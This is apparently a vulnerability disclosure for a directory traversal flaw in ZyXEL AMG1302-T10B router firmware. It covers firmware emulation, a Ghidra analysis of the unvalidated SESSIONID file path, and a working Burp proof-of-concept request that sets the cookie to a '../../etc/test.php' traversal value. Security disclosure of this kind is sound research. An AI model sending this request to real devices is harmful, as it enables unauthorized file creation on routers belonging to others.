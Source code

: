 ### description: 
A directory traversal vulnerability was discovered in the ZyXEL AMG1302-T10B firmware version 2.00(AAJC.16)C0. The vulnerability is present in the FUN_0040fffc function, which is responsible for processing the SESSIONID parameter. This issue allows an attacker to manipulate the file path, potentially leading to unauthorized file creation or access outside the intended directory structure.
### Firmware
**brand**: zyxel 

**product**: AMG1302-T10B

**version**: 2.00(AAJC.16)C0

The firmware can be downloaded from this [website]([Zyxel CPE Devices [Firmware] - Advanced Downloads Firmwares and other resources – Zyxel Support Campus EMEA](https://support.zyxel.eu/hc/en-us/articles/4403361365778-Zyxel-CPE-Devices-Firmware-Advanced-Downloads-Firmwares-and-other-resources#h_01J58MYBXYH3897PEM4KWN7ZBW)) and using FirmAE to simulate the router environment.   The command is
```shell
sudo ./run.sh -r zyxel ../FIRMWARE/2.00(AAJC.16)C0.bin
```
The default username is 'admin', password is '1234'.
The result of the simulation is as follows: 
![img/web.png](img/web.png)
### analyze
Using ghidra, we found that there may be a directory traversal vulnerability in the line 47 of the function FUN_0040fffc

![img/analyze1.png](img/analyze1.png)
We discovered that the variable `local_120` is concatenated from the string constant `"/var/tmp/"` and the variable `uVar5`. We then checked whether the value of `uVar5` is controllable. By analyzing the data flow of `uVar5`, we found that it ultimately originates from `puVar1`.
![img/analyze2.png](img/analyze2.png)
Through analysis of the function `FUN_0040f704` using Ghidra, we determined that the function's purpose is to parse and reassemble formatted key-value pair strings, returning a dynamically allocated array (`local_3c`). Each element of the array points to a structure containing a key (Key) and a value (Value). Combining this with the previous findings, we can infer that the code in function `FUN_0040fffc` is intended to retrieve the value of the `"SESSIONID"` field from the request and create a file. However, there is no validation of the input string, which poses a risk of a directory traversal vulnerability.

The details of the function as follows:

* **Address**: 00410db0   
* **Function**: FUN_0040fffc 
* **Parameter**: SESSIONID
### poc
Burp Suite change the packet as follows
```burpsuite
GET /cgi-bin/pages/maintenance/userAccount/userAccount.html HTTP/1.1

Host: 192.168.1.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Accept-Encoding: gzip, deflate

Connection: close

Referer: http://192.168.1.1/cgi-bin/main.html

Cookie: SESSIONID=../../etc/test.php

Upgrade-Insecure-Requests: 1

```
The result of the POC is as follows. You can create the file `test.php` in any location outside of `/var/tmp/`.
![/1/img/attack.png](/1/img/attack.png)
